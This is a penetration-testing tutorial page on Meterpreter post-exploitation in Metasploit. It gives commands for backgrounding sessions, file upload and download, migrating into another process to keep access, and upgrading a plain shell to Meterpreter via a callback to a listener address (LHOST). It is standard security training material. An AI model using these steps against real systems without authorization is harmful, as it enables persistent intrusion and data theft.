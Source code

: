 # Meterpreter shell for post-exploitation

By now you probably has some kind of shell to the target. If it is not a meterpreter shell you should probably try to turn the current shell into a meterpreter shell, since it gives you a lot of tools available really easy.

So just create a meterpreter-shell from msfvenom or something like that. Maybe a php-shell. Or whatever you have access to. Then you just fire that script and get your meterpreter shell. Check out the chapter Exploiting/Msfvenom for more about creating payloads.

## Basics

List all commands

```
help
```

Get help about a specific command

```
help upload
```

### Sessions

So first some basics. You can put the shell into a background job with the command `background`. This might be useful if you have several shells going at the same time. Or if you want to move to a specific directory to upload or download some files.

List background sessions

```
background -l
```

Connect back to a background session

```
background -i 1
```

Upload and download files.

```
upload
download
```

## Scripts

### Migrate

A really common and useful script that is build into metasploit is the migrate script. If you get the shell through some kind of exploits that crashes a program the user might shut down that program and it will close your session. So you need to migrate your session to another process. You can do that with the `migrate` script.

First run this command to output all processes

```
ps
```

Now you choose one and run

```
run migrate -p 1327
```

Where the `-p` is the PID of the process.

## Post modules

There are tons of modules specifically created for post-exploitation. They can be found with

```
use post/
```

### Upgrade a normal shell to metepreter

There is a point in doing stuff through metasploit. For example, if you find a exploit that does not have meterpreter available as a payload you can just start a normal shell and then upgrade it. To do that you do the following:

First you generate a shell through metasploit, either through a specific exploit or through a msfvenom-shell that you upload. Now that you have a normal shell it is time to upgrade it to a meterpreter shell.

First we have to leave the shell but without killing it. So we do

```
Ctr-z
Background session 2? [y/N]  y
```

Now we have that shell running in the background, and you can see it with

```
show sessions
#or
sessions -l
```

And you can connect to it again with

```
sessions -i 1
```

Or whatever the number of the session is.

So now we have the shell running in the background. It is time to upgrade

```
use post/multi/manage/shell_to_meterpreter
set LHOST 192.168.1.102
set session 1
exploit
```

Now metasploit will create a new session with meterpeter that will be available to you.  Alternatively:

```
sessions -u 1
```

This will do the same.



